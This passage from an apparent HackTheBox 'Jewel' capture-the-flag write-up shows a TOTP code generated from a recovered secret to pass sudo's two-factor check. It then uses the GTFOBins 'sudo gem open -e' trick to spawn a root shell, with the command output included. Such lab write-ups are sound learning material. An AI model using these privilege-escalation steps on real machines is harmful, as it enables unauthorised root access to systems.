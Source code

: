   * now time to send this code to sudo:

		(remote) bill@jewel.htb:/home/bill$ ./oathtool -b --totp '2UQI3R52WFCLE6JTLDCSJYMJH4' && sudo -l
		627580
		[sudo] password for bill: 
		Verification code: 
		Matching Defaults entries for bill on jewel:
			env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, insults

		User bill may run the following commands on jewel:
			(ALL : ALL) /usr/bin/gem

    * And successfully execute sudo command.

# Root Exploting

* User can run `/usr/bin/gem` as any user with sudo:

  __exploit:__ `sudo /usr/bin/gem open -e "/bin/bash -c /bin/bash" rdoc` From [gtfobins](https://gtfobins.github.io/gtfobins/gem/)

	  (remote) bill@jewel.htb:/home/bill$ sudo /usr/bin/gem open -e "/bin/bash -c /bin/bash" rdoc
	  root@jewel:/usr/lib/ruby/gems/2.5.0/gems/rdoc-6.0.1# id
	  uid=0(root) gid=0(root) groups=0(root)